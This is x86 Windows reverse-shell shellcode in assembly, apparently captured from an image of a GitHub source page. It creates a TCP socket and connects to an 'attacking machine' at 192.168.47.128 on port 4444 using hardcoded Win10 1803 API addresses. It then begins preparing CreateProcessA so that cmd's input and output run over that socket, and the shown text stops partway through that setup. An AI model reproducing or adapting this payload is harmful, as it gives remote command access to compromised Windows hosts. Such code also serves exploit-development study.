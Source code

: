 ```asm
global _start

section .text

_start:

	; Create the socket with WSASocketA() 
	
	xor eax, eax
	push eax		; Flags - 0
	push eax		; Group - 0
	push eax		; pWSAprotocol - NULL
	xor ebx, ebx		
	mov bl, 6		
	push ebx		; Protocol - IPPROTO_TCP = 6 		
	inc eax		
	push eax		; Type - SOCK_STREAM = 1
	inc eax
	push eax		; Family - AF_INET = 2
	mov ebx, 0x754e9730	; WSASocketA - Win10 1803
	xor eax, eax
	call ebx
	xchg eax, esi		; save socket into ESI

	; connect() to attacking machine

	push 0x802fa8c0		; 192.168.47.128
	push word 0x5c11	; port 4444
	xor ebx, ebx		
	add bl, 2
	push word bx		
	mov edx, esp		; pointer for SockAddr
	push byte 16		; AddrLen - 16
	push edx		; pSockAddr
	push esi		; saved socket
	mov ebx, 0x754e5ee0	; connect - Win10 1803
	call ebx

	; CreateProcessA()

	mov edx, 0x646d6363	; cmdd
	shr edx, 8		; cmd
	push edx
	mov ecx, esp		; pointer to "cmd"

	xor edx, edx
	sub esp, 16
	mov ebx, esp		; pointer for ProcessInfo (points to garbage)

	push esi		; hStdError - saved socket
	push esi		; hStdOutput - saved socket
	push esi		; hStdInput -saved socket
	push edx		; pReserved2 - NULL	
	push edx		; cbReserved2 -NULL
	xor eax, eax
	inc eax
	rol eax, 8			
	push eax		; dwFlags - STARTF_USESTDHANDLES 0x00000100
	push edx		; dwFillAttribute - NULL
	push edx		; dwYCountChars - NULL
	push edx		; dwXCountChars - NULL
	push edx		; dwYSize - NULL
	push edx		; dwXSize - NULL
```